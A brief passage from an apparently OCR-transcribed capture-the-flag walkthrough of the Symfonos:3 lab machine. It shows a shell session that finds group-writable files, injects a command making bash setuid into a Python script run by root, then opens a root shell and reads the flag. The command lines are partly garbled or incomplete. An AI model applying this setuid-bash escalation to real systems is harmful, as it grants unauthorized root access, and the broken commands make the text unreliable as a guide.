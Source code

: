```bash
hades@symfonos3:/$ find \-group gods -writable 2>dev/null
./usr/lib/python2.7
./etc/python2.7/sitecustomize.py
./opt/ftpclient/ftpclient.py 

we have to open with nano and change a few thing on it 
import os
import sys
os.system("chmod u+s bin/bash"
```

now how the root user executes this script. 

```bash
hades@symfonos3:/tmp$ bash -p
bash-4.2# whoami
root
```
that's how we will gain privilages.

```bash
bash-4.2# whoami
root
```
and here's the flag.

```bash
hades@symfonos3: cd /root
hades@symfonos3: ls
proof.txt
hades@symfonos3: cat proof.txt

        Congrats on rooting symfonos:3!
                                        _._
                                      _/,__\,
                                   __/ _/o'o
                                 /  '-.___'/  __
                                /__   /\  )__/_))\
     /_/,   __,____             // '-.____|--'  \\
    e,e / //  /___/|           |/     \/\        \\
    'o /))) : \___\|          /   ,    \/         \\
     -'  \\__,_/|             \/ /      \          \\
             \_\|              \/        \          \\
             | ||              <    '_    \          \\
             | ||             /    ,| /   /           \\
             | ||             |   / |    /\            \\
             | ||              \_/  |   | |             \\
             | ||_______________,'  |__/  \              \\
              \|/_______________\___/______\_             \\
               \________________________     \__           \\        ___
                  \________________________    _\_____      \\ _____/
                     \________________________               \\
        ~~~~~~~        /  ~~~~~~~~~~~~~~~~~~~~~~~~~~~  ~~ ~~~~\\~~~~
            ~~~~~~~~~~~~~~    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~    //

        Contact me via Twitter @zayotic to give feedback!

#
```
Happy hacking !
